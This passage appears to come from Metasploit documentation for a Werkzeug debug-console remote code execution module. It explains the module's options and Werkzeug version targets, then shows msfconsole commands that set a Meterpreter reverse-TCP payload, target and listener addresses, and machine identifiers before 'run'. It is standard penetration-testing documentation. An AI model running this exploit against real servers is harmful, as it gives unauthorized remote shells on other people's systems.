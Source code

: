   version 0.10 or lower or PIN authentication has been disabled by the
  application developer.

### `METHOD`

HTTP method used to access debugger or console. This is typically GET if the
`TARGETURI` is `/console` but it may be necessary to use other methods to
trigger the debugger. Valid values are: `GET`, `HEAD`, `POST`, `PUT`, `DELETE`,
`OPTIONS`, `TRACE` and `PATCH`. **When `METHOD` is `POST`, `PUT` or `PATCH` the
following additional option may be set:**

- `REQUESTBODY`: Body to send in POST/PUT/PATCH request, if required to trigger
  the debugger. E.g. invalid form value to raise an exception. **When this is
  set the following additional option may be set:**
  - `REQUESTCONTENTTYPE`: Request body encoding. Default:
    `application/x-www-form-urlencoded`

### `TARGETURI`

The path to the console or resource used to trigger the debugger. Default value
is `/console`.

### `VHOST`

The value to use in the HTTP `Host` header. It may be necessary to set this to
`127.0.0.1` or `localhost` if the target Werkzeug version is 3.0.3 or later,
however this may hamper connectivity if the `Host` header is validated before
the request is passed to the application.

### `TARGET`

Determines which algorithm the exploit module will use to generate a pin and
cookie. Valid values are:

- `0`: Werkzeug > 1.0.1 (Flask > 1.1.4)
- `1`: Werkzeug 0.11.6 - 1.0.1 (Flask 1.0 - 1.1.4)
- `2`: Werkzeug 0.11 - 0.11.5 (Flask < 1.0)
- `3`: Werkzeug < 0.11 (Flask < 1.0)

## Scenarios

Example utilizing the previously mentioned sample app listed above.

    $ msfconsole -q                         
    msf > use exploit/multi/http/werkzeug_debug_rce
    [*] No payload configured, defaulting to python/meterpreter/reverse_tcp
    msf exploit(multi/http/werkzeug_debug_rce) > set RHOSTS 192.168.23.5
    RHOSTS => 192.168.23.5
    msf exploit(multi/http/werkzeug_debug_rce) > set LHOST 192.168.23.117
    LHOST => 192.168.23.117
    msf exploit(multi/http/werkzeug_debug_rce) > set VHOST 127.0.0.1
    VHOST => 127.0.0.1
    msf exploit(multi/http/werkzeug_debug_rce) > set MACADDRESS 02:42:ac:12:00:04
    MACADDRESS => 02:42:ac:12:00:04
    msf exploit(multi/http/werkzeug_debug_rce) > set MACHINEID 8d496199-a25e-4340-9c8d-2dc2041c75f8
    MACHINEID => 8d496199-a25e-4340-9c8d-2dc2041c75f8
    msf exploit(multi/http/werkzeug_debug_rce) > set FLASKPATH /usr/local/lib/python3.12/site-packages/flask/app.py
    FLASKPATH => /usr/local/lib/python3.12/site-packages/flask/app.py
    msf exploit(multi/http/werkzeug_debug_rce) > run
